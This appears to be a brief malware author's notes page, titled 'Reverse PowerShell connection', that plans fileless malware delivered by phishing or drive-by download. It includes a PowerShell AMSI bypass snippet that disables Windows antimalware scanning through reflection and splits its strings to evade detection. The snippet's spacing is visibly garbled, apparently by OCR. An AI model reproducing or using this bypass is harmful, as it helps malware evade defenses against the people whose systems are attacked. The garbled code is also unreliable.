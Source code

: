 # Reverse PowerShell connection

## Type II fileless malware 
Execute/Injection 
- indirect file activity 
- point of entry still under progress but phishing works always 
- could hide on webpage and use drivebydownload if possible 

-----------
- amsi bypass may fail, use this: 
$w = 'System.Management.Automation.A'; $ c = 'si'; $ m = 'Utils'
$ assembly = [Ref] .Assembly.GetType (('{0} m {1} {2}' -f $ w, $ c, $ m))
$ field = $ assembly.GetField (('am {0} InitFailed' -f $ c), 'NonPublic, Static')
$ field.SetValue ($ null, $ true)
